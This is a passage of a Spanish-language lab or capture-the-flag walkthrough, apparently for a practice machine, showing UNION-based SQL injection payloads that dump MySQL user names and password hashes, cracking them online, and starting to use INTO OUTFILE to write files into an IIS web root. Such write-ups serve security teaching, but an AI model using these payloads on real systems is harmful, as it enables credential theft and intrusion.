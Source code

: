     Hay muchas tablas y una es la tabla user

1. Enumeramos las columnas de la tabla user

    ```bash
    [+] Payload : ' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema="mysql" and table_name="user"-- -
    ```

    Existe una columna user y una password

1. Accedemos a los usuarios y contraseñas de la base de datos

    ```bash
    [+] Payload : ' union select 1,2,group_concat(User,0x3a,Password),4,5,6 from mysql.user-- -
    ```

Copiamos los usuarios y la contraseñas en un fichero llamado hashes.

### Crackeamos las contraseñas con crackstation {-}

Tratamos las informaciones del fichero hash

```bash
cat hashes | tr ',' '\n' | sed 's/\*//g' | sort -u > hashes
cat hashes | awk '{print $2}' FS=":" | xclip -sel clip
```

Abrimos la web de [crackstation](https://crackstation.net/) y colamos los hashes. Encontramos las contraseñas de hector y de manager.

Aqui el problema es que no tenemos puertos que nos permite conectar a la maquina de manera directa. Tenemos que intentar otra cosa para
poder ganar accesso al systema.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con SQL Injection {-}

Lo que vamos a intentar hacer, es escribir en un fichero usando la **SQLI**. Esto se puede hacer con el commando

```bash
 into outfile 
```

. Como savemos que la web es un IIS la routa por defecto de windows para hostear las webs de IIS es

```bash
 C:\inetpub\wwwroot 
```

 y hemos encontrado una routa

```bash
 /uploads 
```

 intentamos ver si podemos escribir nuevos ficheros.
